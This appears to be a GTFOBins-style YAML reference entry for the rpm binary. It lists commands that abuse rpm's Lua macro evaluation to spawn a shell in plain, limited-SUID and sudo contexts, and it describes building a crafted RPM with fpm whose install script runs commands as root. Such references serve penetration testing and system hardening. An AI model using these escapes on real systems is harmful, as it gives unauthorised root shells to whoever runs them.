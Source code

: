```yaml
---
functions:
  shell:
    - code: rpm --eval '%{lua:os.execute("/bin/sh")}'
  limited-suid:
    - code: ./rpm --eval '%{lua:os.execute("/bin/sh")}'
  sudo:
    - code: sudo rpm --eval '%{lua:os.execute("/bin/sh")}'
    - description: |
        It runs commands using a specially crafted RPM package. Generate it with [fpm](https://github.com/jordansissel/fpm) and upload it to the target.
        ```
        TF=$(mktemp -d)
        echo 'id' > $TF/x.sh
        fpm -n x -s dir -t rpm -a all --before-install $TF/x.sh $TF
        ```
      code: |
        sudo rpm -ivh x-1.0-1.noarch.rpm
---
```

